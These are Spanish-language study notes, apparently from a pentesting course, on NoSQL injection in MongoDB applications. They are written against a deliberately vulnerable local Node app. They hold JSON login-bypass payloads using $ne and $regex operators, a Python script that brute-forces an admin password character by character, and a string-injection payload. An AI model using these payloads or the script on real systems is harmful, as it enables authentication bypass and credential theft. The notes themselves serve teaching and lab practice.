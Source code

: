 # Inyecciones NoSQL

Tags: #NoSQLI #OWASP #Explotacion #MongoSQLI 

Las **inyecciones NoSQL** son una vulnerabilidad de seguridad en las aplicaciones web que utilizan bases de datos NoSQL, como MongoDB, Cassandra y CouchDB, entre otras. Estas inyecciones se producen cuando una aplicación web permite que un atacante envíe datos maliciosos a través de una consulta a la base de datos, que luego puede ser ejecutada por la aplicación sin la debida validación o sanitización.

La inyección NoSQL funciona de manera similar a la inyección SQL, pero se enfoca en las vulnerabilidades específicas de las bases de datos NoSQL. En una inyección NoSQL, el atacante aprovecha las consultas de la base de datos que se basan en **documentos** en lugar de tablas relacionales, para enviar datos maliciosos que pueden manipular la consulta de la base de datos y obtener información confidencial o realizar acciones no autorizadas.

A diferencia de las inyecciones SQL, las inyecciones NoSQL explotan la falta de validación de los datos en una consulta a la base de datos NoSQL, en lugar de explotar las debilidades de las consultas SQL en las **bases de datos relacionales**.

A continuación, se proporciona el enlace al proyecto de Github que nos descargamos para poner en práctica esta vulnerabilidad:

-   **Vulnerable-Node-App**: [https://github.com/Charlie-belmer/vulnerable-node-app](https://github.com/Charlie-belmer/vulnerable-node-app)


## Inyecciones 

En esta pagina podemos encontrar ejemplos de inyecciones NoSQL
* PayloadAllTheThings: [PayloasAllTheThings-NoSQL](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)

Podemos interceptar las peticiones en **BurpSuite y ahi inyectar los NoSQLI**. Esto lo prodriamos hacer en el **Repeater**.
* Peticion por **POST**
* Debemos tramitar la data en **Json**
* Debemos de tener en **Content Type: application/json**, ya que si no, no nos va a servir.

```bash
{                                    # Peticion original interceptada en BurpSuite 
	"username":"admin",
	"password":"admin"
}
```


* Iniciando la inyeccion NoSQL
```bash
{                                    # Probaremos el NoEqual = $ne, sin saber la passwd
	"username":"admin",
	"password":{
		"$ne":"admin"
	}
}
```
Aqui le diremos que la passwd no es igual a 'admin', por lo que es una afirmacion correcta y entrara al login.

```bash
{                                    # Probaremos el NoEqual = $ne, sin saber la passwd y el usuario
	"username":{
		"$ne":"omar"
	},
	"password":{
		"$ne":"admin"
	}
}
```
En esta ocasion le diremos que el usuario no es 'omar' y la passwd no es 'admin', por lo que es una afirmacion correcta y entrara al login.


* Tambien podemos aplicar **Regex = Expresiones Regulares**
```bash
{                                    # Con este Regex le decimos que el usuario (^a = empieza por 'a'), con la passwd correcta
 	"username":{
		"$regex":"^a"
	},
	"password":"admin"
}
```

```bash
{                                    # Con este Regex le decimos que el usuario (^a = empieza por 'a'), y diciendo que la passwd no es admin
 	"username":{
		"$regex":"^a"
	},
	"password":{
		"$ne":"admin"
	}
}
```

Para saber la longitud
```bash
{                                    # Para saber la longitud de caracteres, la cual si es menor o igual a la original la tomara como correcta pero si se pasa sera error
	"username":"admin",
	"password":{
		"$regex":".{24}"
	}
}
```


Podriamos aplicar Fuerza Bruta con las Regex para ir probando caracter por caracter y asi ir descubriendo la passwd de algun usuario especifico que exista.
```python 
❯ nano NoSQL.py

	#!/usr/bin/python3
	from pwn import *
	import requests, time, sys, signal, string

	def def_handler(sig, frame):
		print("\n\n[!] Saliendo...\n")
		sys.exit(1)

	# Ctrl + c
	signal.signal(signal.SIGINT, def_handler)

	# Variables globales
	main_url = "http://localhost:4000/user/login"
	characters = string.ascii_lowercase + string.ascii_uppercase + string.digits           # Probariamos de la a-z A-Z y los numeros

	def makeNoSQLI():
		password = ""
		p1 = log.progress("Fuerza Bruta")
		p1.status("Iniciando fuerza bruta")
		time.sleep(2)
		p2 = log.progress("Password")
		
		for position in range(0, 100):               #Podemos cancelar el bucle cuando ya haya terminado de descifrar la passwd y no esperar a las 100 evaluaciones
			for character in characters:
				post_data = '{"username":"admin","password":{"$regex":"^%s%s"}}' % (password, character)
				p1.status(post_data)
				headers = {'Content-Type': 'application/json'}
				r = requests.post(main_url, headers=headers, data=post_data)
				if "Logged in as user" in r.text:
					password += character
					p2.status(password)
					break 
					
	if __name__ == '__main__':
	makeNoSQLI()
```


## Mongo SQLI

* PayloadAllTheThings: [PayloasAllTheThings-NoSQL](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)
* HackTricks: [Hacktricks-Mongo-NoSQLI](https://book.hacktricks.xyz/pentesting-web/nosql-injection#sql-mongo)

Algunas inyecciones para MongoDB
```bash
❯ ' || '1'='1                                       # La mas sencilla, con la cuarta comilla estamnos cerrando la inyeccion
```